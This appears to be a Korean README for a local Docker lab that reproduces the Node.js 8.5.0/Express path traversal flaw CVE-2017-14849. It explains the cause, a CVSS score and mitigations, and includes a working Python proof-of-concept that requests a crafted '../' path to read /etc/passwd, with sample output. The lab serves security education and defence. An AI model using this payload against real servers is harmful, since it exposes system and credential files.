





# Node.js 경로 순회 취약점 재현  
## CVE-2017-14849

> 본 환경은 보안 교육 및 취약점 재현을 위한 로컬 실습 환경입니다.  
> 본인이 소유하거나 명시적으로 허가받은 환경에서만 사용해야 합니다.

---

## 1. 취약점 요약

CVE-2017-14849는 Node.js 8.5.0에서 발생한 경로 검증 취약점이다.

Node.js 8.5.0에서는 `..`가 포함된 경로를 정규화하는 동작이 변경되었다. 이 변경이 Express와 같은 일부 커뮤니티 모듈의 기존 경로 검증 방식과 호환되지 않으면서, 공격자가 조작된 경로를 이용해 원래 공개되면 안 되는 파일에 접근할 수 있게 되었다.

정적 파일 제공 기능은 지정된 공개 디렉터리 내부의 파일만 반환해야 한다. 그러나 취약한 버전 조합에서는 `../`와 `foo/../` 등의 문자열을 조합한 요청이 경로 검사를 우회할 수 있다.

공격에 성공하면 공격자는 서버 프로세스가 읽을 수 있는 범위 내에서 다음과 같은 파일에 접근할 가능성이 있다.

- 시스템 계정 정보
- 애플리케이션 설정 파일
- 소스 코드
- 데이터베이스 접속 정보
- API 키 및 인증 관련 파일

본 실습에서는 컨테이너 내부의 `/etc/passwd`를 읽어 취약점 발생 여부를 확인한다.

### 취약점 정보

| 구분 | 내용 |
|---|---|
| CVE | CVE-2017-14849 |
| 취약점 유형 | Path Traversal |
| CWE | CWE-22: Improper Limitation of a Pathname to a Restricted Directory |
| 영향 제품 | Node.js |
| 취약 버전 | Node.js 8.5.0 |
| 수정 버전 | Node.js 8.6.0 이상 |
| 사용 프레임워크 | Express 4.15.5 |
| 공격 경로 | 원격 네트워크 |
| 인증 필요 여부 | 필요 없음 |
| 사용자 상호작용 | 필요 없음 |
| 주요 영향 | 서버 내부 파일 노출 |
| 공식 CVSS 점수 | 7.5 High |

---

## 2. 취약점 동작 원리

정상적인 정적 파일 요청은 다음과 같이 처리된다.

```text
GET /static/main.js
        ↓
/app/public/main.js
        ↓
정적 파일 반환
```

서버는 다음 코드를 통해 `/app/public` 디렉터리의 파일을 제공한다.

```javascript
app.use("/static", express.static(path.join(__dirname, "public")));
```

따라서 정상적으로는 `/app/public` 디렉터리 밖의 파일을 읽을 수 없어야 한다.

공격자는 다음과 같이 상위 디렉터리 이동을 의미하는 `../` 문자열을 포함한 경로를 요청한다.

```text
/static/../../../foo/../../../../etc/passwd
```

`../`는 현재 위치에서 상위 디렉터리로 이동한다는 의미다. `foo/../`는 특정 디렉터리로 이동한 뒤 다시 상위 디렉터리로 돌아가는 형태다.

취약한 Node.js 8.5.0과 Express 조합에서는 경로를 검사하는 단계와 실제 파일 경로를 해석하는 단계의 결과가 달라질 수 있다.

```text
조작된 HTTP 요청
        ↓
Express의 경로 검증 통과
        ↓
Node.js가 경로를 다시 정규화
        ↓
공개 디렉터리 외부 경로 접근
        ↓
/etc/passwd 내용 반환
```

이 문제는 Docker 자체의 취약점이 아니다. Docker는 취약한 Node.js 버전과 웹 애플리케이션을 격리된 환경에서 실행하기 위해 사용된다.

PoC로 읽는 `/etc/passwd`도 호스트 컴퓨터의 파일이 아니라 Docker 컨테이너 내부 파일이다.

---

## 3. 실습 환경 구성

### 구성 요소

| 구성 요소 | 버전 또는 설정 |
|---|---|
| Docker | Docker Desktop 또는 Docker Engine |
| Docker Compose | Compose V2 |
| Base Image | `node:8.5.0` |
| Node.js | 8.5.0 |
| Express | 4.15.5 |
| 컨테이너 내부 포트 | 3000 |
| 호스트 공개 포트 | 3000 |
| 운영체제 | Linux 기반 Docker 컨테이너 |
| 공격 도구 | Python 표준 라이브러리 기반 PoC |

### 파일 구조

```text
CVE-2017-14849/
├── Dockerfile
├── docker-compose.yml
├── package.json
├── server.js
├── poc.py
├── public/
│   └── main.js
├── images/
│   ├── 1-compose-build.png
│   ├── 2-container-status.png
│   ├── 3-normal-request.png
│   ├── 4-poc-result.png
│   └── 5-version-check.png
└── README.md
```

### Dockerfile

```dockerfile
FROM node:8.5.0

WORKDIR /app

COPY package.json .

RUN npm install --production

COPY server.js .
COPY public ./public

EXPOSE 3000

CMD ["npm", "start"]
```

### docker-compose.yml

```yaml
services:
  vulnerable-node:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: cve-2017-14849
    ports:
      - "3000:3000"
```

### package.json

```json
{
  "name": "cve-2017-14849-lab",
  "version": "1.0.0",
  "description": "CVE-2017-14849 vulnerable environment",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "dependencies": {
    "express": "4.15.5"
  }
}
```

### server.js

```javascript
const express = require("express");
const path = require("path");

const app = express();
const port = 3000;

app.use("/static", express.static(path.join(__dirname, "public")));

app.get("/", (req, res) => {
  res.send(`
    <!DOCTYPE html>
    <html lang="ko">
      <head>
        <meta charset="UTF-8">
        <title>CVE-2017-14849 Lab</title>
      </head>
      <body>
        <h1>CVE-2017-14849 취약 환경</h1>
        <p>Node.js 8.5.0과 Express 4.15.5를 사용합니다.</p>
        <p><a href="/static/main.js">정상 정적 파일 확인</a></p>
      </body>
    </html>
  `);
});

app.listen(port, "0.0.0.0", () => {
  console.log(`Vulnerable server running on port ${port}`);
});
```

### public/main.js

```javascript
console.log("Static file loaded successfully.");
```

---

## 4. 취약 조건

다음 조건이 충족될 때 취약점이 발생할 수 있다.

1. Node.js 8.5.0을 사용해야 한다.
2. 경로 검증에 영향을 받는 커뮤니티 모듈을 사용해야 한다.
3. 본 환경에서는 Express 4.15.5의 정적 파일 제공 기능을 사용한다.
4. 공격자가 웹서버의 HTTP 포트에 접근할 수 있어야 한다.
5. 서버 프로세스가 공격 대상 파일을 읽을 수 있어야 한다.
6. 별도의 사용자 인증은 필요하지 않다.
7. 프록시 또는 웹서버가 요청 경로를 먼저 정규화하지 않고 애플리케이션에 전달해야 한다.

최신 Node.js 버전이나 수정된 버전을 사용하면 동일한 공격 요청이 차단되어야 한다.

---

## 5. 환경 실행 방법

### 사전 요구사항

다음 명령이 정상적으로 실행되어야 한다.

```bash
docker --version
docker compose version
```

### 실행

현재 README와 `docker-compose.yml`이 있는 디렉터리에서 다음 명령을 실행한다.

```bash
docker compose up -d --build
```

위 명령 하나로 이미지 빌드와 컨테이너 실행이 완료된다.

### 실행 상태 확인

```bash
docker compose ps
```

정상적으로 실행되면 `vulnerable-node` 서비스가 `running` 또는 `Up` 상태로 표시된다.

### 로그 확인

```bash
docker compose logs
```

정상적인 경우 다음 메시지가 출력된다.

```text
Vulnerable server running on port 3000
```


.png)



---

## 6. 정상 기능 확인

웹브라우저에서 다음 주소에 접속한다.

```text
http://localhost:3000
```

또는 터미널에서 다음 명령을 실행한다.

```bash
curl http://localhost:3000
```

정상 정적 파일은 다음 주소에서 확인할 수 있다.

```text
http://localhost:3000/static/main.js
```

터미널에서는 다음 명령으로 확인할 수 있다.

```bash
curl http://localhost:3000/static/main.js
```

정상 결과:

```javascript
console.log("Static file loaded successfully.");
```



---

## 7. PoC 코드

`poc.py`는 추가 Python 패키지 없이 실행할 수 있도록 Python 표준 라이브러리만 사용한다.

```python
import http.client
import sys
from urllib.parse import urlparse


def main() -> None:
    target = (
        sys.argv[1]
        if len(sys.argv) > 1
        else "http://localhost:3000"
    )

    parsed = urlparse(target)

    host = parsed.hostname or "localhost"
    port = parsed.port or 3000

    payload = (
        "/static/../../../foo/"
        "../../../../etc/passwd"
    )

    connection = http.client.HTTPConnection(
        host,
        port,
        timeout=10,
    )

    try:
        print(f"[+] Target  : {target}")
        print(f"[+] Payload : {payload}")

        connection.request(
            "GET",
            payload,
            headers={
                "Host": f"{host}:{port}",
                "Connection": "close",
            },
        )

        response = connection.getresponse()
        body = response.read().decode(
            "utf-8",
            errors="replace",
        )

        print(f"[+] Status  : {response.status}")
        print("-" * 60)
        print(body)
        print("-" * 60)

        if response.status == 200 and "root:" in body:
            print(
                "[+] Vulnerability reproduced: "
                "/etc/passwd was disclosed."
            )
            raise SystemExit(0)

        print(
            "[-] Vulnerability was not confirmed. "
            "Expected /etc/passwd content was not found."
        )
        raise SystemExit(1)

    except (
        ConnectionError,
        TimeoutError,
        OSError,
        http.client.HTTPException,
    ) as error:
        print(f"[-] Request failed: {error}")
        raise SystemExit(1) from error

    finally:
        connection.close()


if __name__ == "__main__":
    main()
```

---

## 8. 취약점 재현 절차

### 8.1 서버 실행

```bash
docker compose up -d --build
```

### 8.2 서버 상태 확인

```bash
docker compose ps
```

### 8.3 취약 버전 확인

```bash
docker compose exec vulnerable-node node --version
```

예상 결과:

```text
v8.5.0
```

Express 버전 확인:

```bash
docker compose exec vulnerable-node npm list express
```

예상 결과:

```text
express@4.15.5
```



### 8.4 PoC 실행

Linux 또는 macOS:

```bash
python3 poc.py http://localhost:3000
```

Windows CMD 또는 PowerShell:

```powershell
py poc.py http://localhost:3000
```

Python 명령이 등록되어 있다면 Windows에서도 다음 명령을 사용할 수 있다.

```powershell
python poc.py http://localhost:3000
```

### 8.5 성공 판단 기준

취약점이 재현되면 HTTP 상태 코드 `200`과 함께 `/etc/passwd` 내용이 출력된다.

예시:

```text
[+] Target  : http://localhost:3000
[+] Payload : /static/../../../foo/../../../../etc/passwd
[+] Status  : 200
------------------------------------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
------------------------------------------------------------
[+] Vulnerability reproduced: /etc/passwd was disclosed.
```

다음 조건을 모두 만족하면 재현 성공으로 판단한다.

- HTTP 상태 코드가 `200`이다.
- 응답 본문에 `root:`가 포함된다.
- `/etc/passwd` 형식의 사용자 계정 정보가 출력된다.
- PoC가 종료 코드 `0`으로 종료된다.

---

## 9. 실행 결과

정상 요청에서는 공개 디렉터리에 있는 `/app/public/main.js`만 반환되었다.

그러나 조작된 경로가 포함된 요청을 전송했을 때, 공개 디렉터리 외부에 있는 컨테이너의 `/etc/passwd` 내용이 응답으로 반환되었다.

이를 통해 다음 사항을 확인했다.

1. 공격자는 네트워크를 통해 취약한 웹서버에 접근할 수 있다.
2. 별도의 인증 과정 없이 공격할 수 있다.
3. 사용자 상호작용이 필요하지 않다.
4. 지정된 정적 파일 디렉터리 밖의 파일을 읽을 수 있다.
5. 컨테이너 내부 파일의 기밀성이 침해된다.
6. 본 PoC에서는 파일 수정이나 명령 실행은 확인되지 않았다.



> 본 실습에서 출력된 `/etc/passwd`는 Docker 컨테이너 내부 파일이다.  
> Windows 또는 Linux 호스트의 `/etc/passwd`를 읽은 것이 아니다.

---

## 10. Risk Score

### 위험도 분석

**Risk Score: 7.5 / 10.0 — High**

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

| 평가 항목 | 값 | 판단 근거 |
|---|---|---|
| Attack Vector | Network | HTTP 요청을 통해 원격 악용 가능 |
| Attack Complexity | Low | 특수한 경쟁 조건이나 복잡한 준비가 필요하지 않음 |
| Privileges Required | None | 로그인 또는 사전 권한이 필요하지 않음 |
| User Interaction | None | 피해 사용자의 추가 동작이 필요하지 않음 |
| Scope | Unchanged | 취약한 서버 프로세스의 권한 범위에서 영향 발생 |
| Confidentiality | High | 서버가 읽을 수 있는 비공개 파일 노출 가능 |
| Integrity | None | 본 취약점으로 파일 변경은 확인되지 않음 |
| Availability | None | 본 취약점으로 직접적인 서비스 중단은 확인되지 않음 |

### 위험도 해석

이 취약점은 원격에서 인증 없이 악용할 수 있고 공격 절차도 비교적 단순하다.

공격에 성공하면 설정 파일, 소스 코드, 인증 정보 등 서버 프로세스가 읽을 수 있는 민감한 정보가 노출될 수 있으므로 기밀성 영향이 크다.

다만 본 CVE는 기본적으로 파일 읽기 취약점이며, 파일 수정이나 원격 명령 실행을 직접 제공하지 않는다. 따라서 무결성과 가용성 영향은 없는 것으로 평가한다.

---

## 11. 종료 및 초기화

실습이 끝난 뒤 다음 명령으로 컨테이너와 네트워크를 제거한다.

```bash
docker compose down -v
```

이미지까지 삭제하여 완전히 새로 검증하려면 다음 명령을 사용한다.

```bash
docker compose down -v --rmi local
```

빌드 캐시를 사용하지 않고 다시 실행한다.

```bash
docker compose build --no-cache
docker compose up -d
```

PoC를 다시 실행한다.

Linux 또는 macOS:

```bash
python3 poc.py http://localhost:3000
```

Windows:

```powershell
py poc.py http://localhost:3000
```

검증이 끝난 뒤 다시 종료한다.

```bash
docker compose down -v
```

---


## 12. 대응 방안

### 12.1 Node.js 업그레이드

가장 확실한 대응 방법은 Node.js 8.5.0을 사용하지 않고 취약점이 수정된 버전 이상으로 업그레이드하는 것이다.

```text
Node.js 8.5.0
        ↓
Node.js 8.6.0 이상으로 업그레이드
```

Node.js 8.x 계열은 현재 지원이 종료된 오래된 버전이므로, 실제 운영 환경에서는 단순히 8.6.0으로만 올리는 것이 아니라 현재 지원되는 LTS 버전으로 이전해야 한다.

### 12.2 입력 경로 검증

사용자가 전달한 경로를 그대로 파일 시스템 경로와 결합하지 않아야 한다.

다음 문자열을 포함한 요청을 검증하거나 거부해야 한다.

```text
../
..\
%2e%2e
%2f
%5c
```

단순 문자열 차단만으로는 인코딩 및 우회 방법을 모두 막기 어려우므로, 정규화 후 최종 경로가 허용된 기본 디렉터리 내부인지 확인해야 한다.

### 12.3 정적 파일 디렉터리 제한

정적 파일은 전용 디렉터리에서만 제공하고, 운영 설정 파일이나 민감한 파일을 같은 경로에 저장하지 않아야 한다.

```text
/app/public       공개 파일
/app/config       비공개 설정
/app/secrets      비공개 인증 정보
```

### 12.4 최소 권한 적용

Node.js 프로세스를 root가 아닌 별도의 저권한 사용자로 실행해야 한다.

Dockerfile에 전용 사용자를 추가하는 방식이 권장된다.

```dockerfile
RUN groupadd --system appgroup \
    && useradd --system --gid appgroup appuser

USER appuser
```

다만 본 실습 환경은 CVE 재현을 목적으로 취약한 원래 조건을 유지한다. 위 설정은 실제 운영 환경의 대응 방안이다.

### 12.5 민감 정보 분리

다음 정보가 웹 애플리케이션 프로세스에서 불필요하게 읽히지 않도록 권한을 분리해야 한다.

- 데이터베이스 비밀번호
- API 키
- 개인키
- 클라우드 자격 증명
- 운영 환경 설정 파일

### 12.6 프록시 및 WAF 보완

리버스 프록시 또는 WAF에서 비정상적인 경로 이동 패턴을 탐지하고 차단할 수 있다.

그러나 프록시나 WAF는 보조 수단이며, 취약한 Node.js 버전의 업그레이드를 대체할 수 없다.


---

## 13. 참고 자료

- Node.js Security Advisory, Path validation vulnerability, September 2017
- NIST National Vulnerability Database, CVE-2017-14849
- CVE Program, CVE-2017-14849
- Node.js 공식 문서
- Express 공식 문서